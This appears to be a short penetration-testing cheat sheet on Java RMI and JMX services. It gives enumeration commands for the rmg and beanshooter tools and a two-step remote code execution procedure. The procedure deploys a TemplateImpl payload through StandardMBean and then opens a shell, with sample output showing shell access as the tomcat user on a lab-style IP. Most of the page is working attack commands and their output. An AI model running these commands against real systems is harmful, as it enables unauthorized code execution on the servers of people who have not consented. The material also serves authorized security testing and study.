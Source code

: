 ```yaml
---
title: "Java RMI"
date: 2025-7-30
tags: ["Java", "RMI", "JMX", "Remote Method Invocation", "Api", "JVM", "Enum", "rmg", "beansshooter"]
---
```


### RMI (Remote Method Invocation)

{{< tab set1 tab1 >}}rmg{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Enum

```console
java -jar rmg.jar enum <TARGET> <PORT>
```

<small>*Ref: [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)*</small>

{{< /tabcontent >}}

---

### JMX (Java Management Extensions)

{{< tab set2 tab1 >}}beanshooter{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### Enum

```console
java -jar beanshooter.jar enum <TARGET> <PORT>
```

#### RCE

```console
# 1. Upload payload
java -jar beanshooter.jar standard <TARGET> <PORT> tonka
```

```console {class="sample-code"}
$ java -jar beanshooter.jar standard 10.10.69.227 2222 tonka
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+]     Deplyoing MBean: StandardMBean
[+]     MBean with object name de.qtc.beanshooter:standard=5515770682654 was successfully deployed.
[+]
[+]     Caught NullPointerException while invoking the newTransformer action.
[+]     This is expected bahavior and the attack most likely worked :)
[+]
[+]     Removing MBean with ObjectName de.qtc.beanshooter:standard=5515770682654 from the MBeanServer.
[+]     MBean was successfully removed.
```

```console
# 2. RCE
java -jar beanshooter.jar tonka shell <TARGET> <PORT>
```

```console {class="sample-code"}
$ java -jar beanshooter.jar tonka shell 10.10.69.227 2222
[tomcat@10.10.69.227 /]$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

<small>*Ref: [beanshooter](https://github.com/qtc-de/beanshooter)*</small>

{{< /tabcontent >}}


